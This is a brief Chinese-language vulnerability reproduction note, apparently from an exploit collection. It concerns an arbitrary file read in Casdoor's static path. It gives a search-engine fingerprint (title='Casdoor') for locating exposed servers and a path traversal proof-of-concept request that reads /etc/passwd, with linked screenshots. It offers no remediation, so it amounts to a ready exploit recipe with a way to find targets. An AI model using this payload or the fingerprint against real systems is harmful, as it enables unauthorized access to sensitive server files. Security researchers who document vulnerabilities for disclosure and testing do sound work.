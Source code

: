 # Casdoor static 任意文件读取漏洞

## 漏洞描述

Casdoor static 存在任意文件读取漏洞，攻击者通过发送特殊的请求包可以获取服务器中的敏感文件

## 漏洞影响

<a-checkbox checked>Casdoor </a-checkbox>

## 网络测绘

<a-checkbox checked>title="Casdoor" </a-checkbox>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1696485665805-41fd85ce-669b-4af6-b2d7-ce41f967d836.png)

验证POC

```plain
/static/../../../../../../../../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1696485691183-fca88e1a-c0dd-44e9-8ade-a51ae4a29615-20231108133631024.png)